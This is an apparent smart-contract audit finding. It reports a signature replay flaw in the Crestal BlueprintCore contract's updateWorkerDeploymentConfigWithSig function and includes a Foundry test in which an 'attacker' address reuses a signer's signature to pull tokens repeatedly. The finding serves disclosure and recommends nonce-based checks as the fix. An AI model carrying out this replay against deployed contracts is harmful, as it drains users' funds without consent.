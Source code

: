 Mini Sangria Dragonfly

High

# Signature Replay Attack in updateWorkerDeploymentConfigWithSig Allows Unauthorized Fund Draining

### Summary

The `updateWorkerDeploymentConfigWithSig `function can be called multiple times using the same signature as long as the user’s approval remains valid. This enables an attacker to repeatedly drain tokens from the signer’s account without their consent. Since USDC (one of the accepted tokens) does not reset the approval after `transferFrom`, the attack remains viable until the user manually revokes approval.

### Root Cause

**1. Lack of Signature Replay Protection:**
  The function does not verify whether the signature has already been used, allowing it to be reused indefinitely.

**2. Persistent Token Approval:**
  USDC does not reset approvals after `transferFrom`, meaning funds can continuously be drained as long as approval exists.

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L672-L686

### Internal Pre-conditions

-

### External Pre-conditions

-

### Attack Path

-

### Impact

**User Fund Draining:** Attackers can repeatedly call the function using a valid signature until the approval is revoked.

### PoC

```solidity
function test_updateWorkerDeploymentSignatureReplay() public {
    string memory base64Proposal = "test base64 proposal";
    string memory serverURL = "app.crestal.network";

    uint256 signerPrivateKey = 0xA11CE;
    address signer = vm.addr(signerPrivateKey);

    blueprint.addPaymentAddress(address(mockToken));

    blueprint.setCreateAgentTokenCost(address(mockToken), 0);

    vm.prank(signer);
    bytes32 requestId = blueprint.createAgentWithToken(
        projectId,
        base64Proposal,
        workerAddress,
        serverURL,
        address(mockToken)
    );

    uint256 validTokenAmount = 100 * 10 ** 18;

    blueprint.setUpdateCreateAgentTokenCost(
        address(mockToken),
        validTokenAmount
    );

    mockToken.mint(signer, validTokenAmount * 3);

    vm.prank(signer);
    mockToken.approve(address(blueprint), validTokenAmount * 3);

    (bytes memory signature, ) = generateSignature(
        projectId,
        base64Proposal,
        serverURL
    );

    vm.prank(signer);
    blueprint.updateWorkerDeploymentConfigWithSig(
        address(mockToken),
        projectId,
        requestId,
        base64Proposal,
        signature
    );

    //attacker recalling the function multiple times with same signature
    vm.startPrank(makeAddr("attacker"));
    blueprint.updateWorkerDeploymentConfigWithSig(
        address(mockToken),
        projectId,
        requestId,
        base64Proposal,
        signature
    );

    vm.startPrank(makeAddr("attacker"));
    blueprint.updateWorkerDeploymentConfigWithSig(
        address(mockToken),
        projectId,
        requestId,
        base64Proposal,
        signature
    );
}

```

### Mitigation

Implement Nonce-Based Signature Verification